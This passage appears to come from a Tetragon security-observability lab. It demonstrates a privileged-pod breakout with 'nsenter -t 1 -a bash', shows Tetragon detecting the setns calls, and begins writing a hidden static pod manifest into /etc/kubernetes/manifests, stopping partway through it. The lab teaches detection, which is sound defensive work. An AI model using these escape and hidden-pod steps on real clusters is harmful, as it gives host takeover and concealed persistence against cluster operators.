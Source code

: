 kubectl apply -f sys-setns.yaml

Privileges escalation:
kubectl exec -it sith-infiltrator -- /bin/bash
nsenter -t 1 -a bash (Enter all namespaces(cgroup, ipc, uts, net, pid, mnt, time), target pid is 1)

Terminal 2: 
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon   -- tetra getevents -o compact --pods sith-infiltrator
🚀 process default/sith-infiltrator /usr/bin/nsenter -t 1 -a bash 🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter cgroup         🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter ipc            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter uts            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter net            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter pid            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter mnt            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter time           🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/bash          🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /bin/bash  0  🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /bin/bash              🛑 CAP_SYS_ADMIN


Cilium Tetragon provides an enforcement framework called TracingPolicy. TracingPolicy is a user-configurable Kubernetes custom resource definition (CRD) that allows you to trace arbitrary events in the kernel and define actions to take on match.

TracingPolicy is fully Kubernetes Identity Aware, so it can enforce on arbitrary kernel events and system calls after the Pod has reached a ready state. This allows you to prevent system calls that are required by the container runtime but should be restricted at application runtime. You can also make changes to the TracingPolicy that dynamically update the eBPF programs in the kernel without needing to restart your application or node.

Once there is an event triggered by a TracingPolicy and the corresponding signature, you can either send an alert to a Security Analyst or prevent the behaviour with a SIGKILL signal to the process.

To be able to detect creating an invisible Pod, we will need to apply the third TracingPolicy. This TracingPolicy is going to be used to monitor read and write access to sensitive files. In our case, we are going to observe the __x64_sys_write and __x64_sys_read system calls which are executed on the files under the /etc/kubernetes/manifests directory

In terminal 2:
kubectl apply -f sys-write-etc-kubernetes-manifests.yaml


In terminal 1: monitor the generated Security Observability events
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pods sith-infiltrator

In terminal 2: 
kubectl exec -it sith-infiltrator -- /bin/bash
nsenter -t 1 -a bash
cd /etc/kubernetes/manifests/
ls -la

Create invisible pod template in /etc/kubernetes/manifests/:

cat << EOF > hack-latest.yaml
apiVersion: v1
kind: Pod
metadata:
  name: hack-latest
  hostNetwork: true
  # define in namespace that doesn't exist so
  # workload is invisible to the API server
  namespace: doesnt-exist
spec: